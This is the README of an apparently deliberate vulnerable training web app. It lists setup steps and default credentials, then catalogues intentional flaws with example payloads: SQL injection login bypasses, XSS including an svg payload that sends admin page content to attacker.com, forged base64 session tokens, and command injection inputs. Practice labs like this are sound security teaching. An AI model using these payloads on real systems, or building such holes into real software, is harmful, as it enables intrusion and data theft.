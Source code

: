 # CYSCOM Vulnerable Web Application 

## Setup Instructions

1. use virtual environment:
```b
python -m venv venv
venv/bin/activate 
```

2. Install dependencies:
```
pip install -r requirements.txt
```

3. Run the application:
```
python app.py
```

The application will be available at `http://localhost:5000`


## Default Credentials
1. Admin Account:
   - Username: `admin`
   - Password: `admin123`

2. Regular User:
   - Username: `user`
   - Password: `password123`

## Intentional Vulnerabilities

1. **SQL Injection**
   - username: admin' --
   - password: anything
   
   - username: ' OR '1'='1' --
   - password: anything

   - username: ' OR is_admin=1--
   - password: anything

2. **Cross-Site Scripting (XSS)**
   - Multiple XSS vectors:
     - Error messages in login page
     - Username display in dashboard
     - Note content (stored XSS)
   - Example payloads:
     ```
     <script>alert(document.cookie)</script>
     <img src=x onerror="alert('XSS')">
     <svg onload="fetch('/admin').then(r=>r.text()).then(t=>fetch('https://attacker.com/?'+btoa(t)))">
     ```

3. **Session Token Vulnerabilities**
   - Weak session token generation (base64 encoded username:timestamp)
   - Token format: `base64(username:timestamp)`
   - Admin check based on token prefix
   - Example: Any token starting with 'YWRtaW4' (base64 of 'admin') grants admin access

4. **Admin Panel Vulnerabilities**
   - Path disclosure in admin dashboard
   - Weak access control (token-based)
   - API endpoint `/api/check_admin` reveals admin check logic
   - Multiple ways to gain access:
     1. SQL injection to become admin
     2. Session token manipulation
     3. Direct path access with forged token

5. **Missing CSRF Protection**
   - Note creation form lacks CSRF tokens
   - Vulnerable to cross-site request forgery

6. **Weak Authentication**
   - Plaintext password storage
   - Weak default credentials (brute force with foxyproxy and burpsuite)

7. **Command Injection**
   - File search functionality uses unsanitized input
   - Try: `; ls` or `& dir` (no files on server for now)
